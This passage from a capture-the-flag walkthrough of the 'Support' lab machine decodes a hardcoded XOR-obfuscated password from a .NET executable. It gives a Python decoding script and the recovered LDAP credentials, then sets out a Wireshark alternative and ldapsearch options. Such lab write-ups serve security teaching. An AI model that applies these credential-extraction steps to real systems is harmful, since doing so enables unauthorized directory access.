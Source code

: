 ```
# private static byte[] key
// UserInfo.Services.Protected
using System.Text;

private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

With these two last elements, we can write a script to reverse the function getPassword() and ultimately obtain the password used for "support" user to access the Active Directory.

Save the script as script.py and this content:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b'armando'

array = base64.b64decode(enc_password)
array2 = ''
for i in range(len(array)):
    array2 += chr(array[i] ^ key[i%len(key)] ^ 223)

print(array2)
´´´

Now, give script.py execution permissions and run it:

```bash
chmod +x script.py
python script.py
```

Decrypted password would be: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

Before going on, there is another way to get the password besides writing this python script. One of them, for instance, would involve:

1. Opening a windows machine in the tun0 network range.
2. Opening wireshark and capturing tun0 interface.
3. Running the executable UserInfo.exe from the windows machine.
4. Examining in wireshark the LDAP authentication packet (Follow TCP Stream in a request to port 389).


Summing up, we have:

+ user: support
+ password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
+ ldap directory: support.htb


Now we can use a tool such as ldapsearch to open a connection to the LDAP server, bind, and perform a search using specified parameters, like:

```
-b searchbase 	Use searchbase as the starting point for the search instead of the default.
-x 		Use simple authentication instead of SASL.
-D binddn	Use the Distinguished Name binddn to bind to the LDAP directory.  For SASL binds, the server is expected to ignore this value.
-w passwd       Use passwd as the password for simple authentication.
-H ldapuri	Specify  URI(s)  referring  to  the  ldap  server(s); a list of URI, separated by whitespace or commas is expected
```
